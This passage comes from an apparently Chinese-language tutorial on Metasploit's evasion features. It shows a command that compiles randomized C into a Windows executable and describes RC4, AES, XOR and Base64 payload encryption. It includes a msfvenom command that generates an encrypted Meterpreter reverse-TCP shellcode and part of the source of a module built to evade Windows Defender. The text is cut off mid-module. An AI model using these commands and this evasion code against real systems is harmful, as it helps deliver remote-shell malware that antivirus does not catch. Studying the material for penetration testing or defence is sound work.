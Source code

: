 outfile = "/tmp/helloworld.exe"  
weight = 70 # This value is used to determine how random the code gets.  
Metasploit::Framework::Compiler::Windows.compile_random_c_to_file(outfile, c_source_code, weight: weight)  
{{< /highlight >}}
### 加密方式

并且此次添加了四种加密方式，分别为AES256-CBC、RC4、XOR和Base64。
使用方法:
- msfvenom
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f c`
此语句将会打印加密后的shellcode，需要自行实现客户端加载。
- 模板中
`Msf::Simple::Buffer.transform(payload.encoded, 'c', 'buf', format: 'rc4', key: rc4_key)`
需要结合之前介绍过的编译函数使用。
例如:
{{< highlight shell >}}
##
#This module requires Metasploit: https://metasploit.com/download  
#Current source: https://github.com/rapid7/metasploit-framework  
##
require 'metasploit/framework/compiler/windows'  
class MetasploitModule < Msf::Evasion  
    def initialize(info={})  
        super(merge_info(info,  
            'Name' => 'Microsoft Windows Defender Evasive Executable',  
            'Description' => %q{  
                This module allows you to generate a Windows EXE that evades against Microsoft  
                Windows Defender. Multiple techniques such as shellcode encryption, source code obfuscation, Metasm, and anti-emulation are used to achieve this.  
                For best results, please try to use payloads that use a more secure channel such as HTTPS or RC4 in order to avoid the payload network traffc getting caught by antivirus better.  
            },  
            'Author' => [ 'sinn3r' ],  
            'License' => MSF_LICENSE,  
            'Platform' => 'win',  
            'Arch' => ARCH_X86,  
            'Targets' => [ ['Microsoft Windows', {}] ]  
        ))  
    end  
def rc4_key  
    @rc4_key ||= Rex::Text.rand_text_alpha(32..64)  
end  
def get_payload  
    @c_payload ||= lambda {  
        opts = { format: 'rc4', key: rc4_key }  
        junk = Rex::Text.rand_text(10..1024)  
        p = payload.encoded + junk  

        return {  
        size: p.length,  
        c_format: Msf::Simple::Buffer.transform(p, 'c', 'buf', opts)  
        }  
    }.call  
end  
